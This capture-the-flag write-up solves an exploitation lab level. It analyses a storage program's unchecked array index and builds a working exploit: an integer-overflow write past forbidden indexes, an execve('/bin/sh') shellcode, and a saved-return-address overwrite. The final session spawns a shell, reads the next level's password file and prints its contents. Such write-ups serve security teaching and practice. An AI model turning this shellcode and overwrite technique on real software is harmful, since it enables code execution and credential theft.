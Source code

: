 # level07

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Basically, this program is a number storage service. `main` declares an array of a hundred unsigned integers that the
user can handle via differents commands read from the standard input :

- `read` calls an associated function `read_number` that asks for an index of the array to look at and prints the value
  stored at this address.
- `store` calls `store_number` that first asks the user for a value to store, then for an index where to put it. A
  condition prevents us to store any value every 3 indexes (0, 3, 6...).
- `quit` obviously exits the program.

The first vulnerability we notice is that the index is never checked by any functions. The input is read by `scanf`
which interprets it as an unsigned integer, then used as it is to move through the array.

We expect to use this lack of security to read/write almost everywhere on the stack, especially at the return address of
`main` in order to redirect the execution flow. Our idea is to inject some shellcode, as we did many times in previous
levels, but we are confronted to some difficulties here.

At the beginning of the execution, the program deletes any argument and environment variable that could have been
supplied, so we cannot store our shellcode this way. Therefore, the only area available from our knowledge is the array
used to store numbers, but we need to find a way to bypass the restriction of the forbidden indexes.

Let's take a look at the function `store_number` to understand how it handles the index values we send.

```gdb
gdb-peda$ pd store_number
Dump of assembler code for function store_number:
    [...]
    0x08048666 <+54>:    call   0x80485e7 <get_unum>        ; get the index by calling scanf("%u", &number)
    0x0804866b <+59>:    mov    DWORD PTR [ebp-0xc],eax     ; store it to [ebp-0xc]
    [...]
    0x080486c2 <+146>:    mov    eax,DWORD PTR [ebp-0xc]
    0x080486c5 <+149>:    shl    eax,0x2                    ; shift left twice => multiply by four
    0x080486c8 <+152>:    add    eax,DWORD PTR [ebp+0x8]    ; [ebp+0x8] is the array address
    0x080486cb <+155>:    mov    edx,DWORD PTR [ebp-0x10]   ; [ebp-0x10] is the value we want to store
    0x080486ce <+158>:    mov    DWORD PTR [eax],edx        ; store the value at the offset/index
    [...]
```

The shift operation here is very interesting. It will transform the index we provide to get the effective offset (in
byte) where to store the value. Basically, if we want to store a value at the 2nd cell of our unsigned integers array,
we need to move to `array address + (2 * 4)` since an integer is 4-byte long. Pretty obvious in fact.

By mixing this information with the use of an integer overflow, we will be able to write at the forbidden indexes.
Sweet!

## Exploit

We first use GDB in order to find the offset of the saved `main` return address from the array.

```gdb
gdb-peda$ b *0x0804892b                             ## <read_number> call address, easy way to find the array address with peda display
Breakpoint 1 at 0x804892b
gdb-peda$ r
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read
=> 0x804892b <main+520>:	call   0x80486d7 <read_number>
Guessed arguments:
arg[0]: 0xffffd544 --> 0x0                          ## array address
Breakpoint 1, 0x0804892b in main ()

gdb-peda$ info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 called by frame at 0xffffd780
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c                                 ## saved EIP / main return address
```

Now that we have both saved EIP and array addresses, we can find the offset with a simple subtraction.

```python
>>> 0xffffd70c - 0xffffd544
456                             ## bytes offset
>>> 456 / 4
114                             ## array index representation
```

Guess what? `114 % 3 = 0` so 114 is part of the forbidden indexes. Hopefully it is not a problem anymore. 😁

From here, we have tried to perform the exploit, and have failed because the array address `0xffffd544` that we have
stored at the EIP address to jump in was bad. Why? Because GDB alter the stack size by adding/changing environment
variables.

Looking for a way to get the array address when running the program in an "regular" environment, we found out that we
could use a negative index to dump lower stack addresses than the array one. We use gdb once again to find the offset
between the array and its address pushed on stack when `read_number` is called.

```gdb
gdb-peda$ b *0x80486da                              ## beginning of <read_number>
Breakpoint 1 at 0x804892b
gdb-peda$ r
=> 0x80486da <read_number+3>:	sub    esp,0x28
Breakpoint 1, 0x080486da in read_number ()

gdb-peda$ x $ebp+8
0xffffd520:	0xffffd544
```

```python
>>> 0xffffd544 - 0xffffd520
36
>>> 36 / 4
9
```

Good, we will read the index `-9` in order to get the right array address to inject at the `main` return address.

We have almost everything we need now. We use a tiny shellcode (21 bytes long), split it in 4-byte parts and reverse the
bytes order in each part, according to the endianness. We will use the 6th first indexes of the array to store this
shellcode. Let's compute the values needed, then start the exploit.

`execve("/bin/sh")` shellcode: `"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"`.

```python
# Shellcode values
>>> 0x99580b6a
2572684138
>>> 0x2f2f6852
791636050
>>> 0x2f686873
795371635
>>> 0x896e6962
2305714530
>>> 0xcdc931e3
3452514787
>>> 0x80
128

# Integer overflow for indexes 0 and 3 
>>> (2**32) / 4
1073741824
>>> (2**32 + (4 * 3)) / 4
1073741827

# Integer overflow for index 114 (EIP)
>>> (2**32 + (4 * 114)) / 4
1073741938
``` 

```console
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 2572684138
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 791636050
 Index: 1
 Completed store command successfully
Input command: store
 Number: 795371635
 Index: 2
 Completed store command successfully
Input command: store
 Number: 2305714530
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 3452514787
 Index: 4
 Completed store command successfully
Input command: store
 Number: 128
 Index: 5
 Completed store command successfully
Input command: read
 Index: -9
 Number at data[4294967287] is 4294956388           # this is the address of the array
 Completed read command successfully
Input command: store
 Number: 4294956388                                 # that we put in the EIP address
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
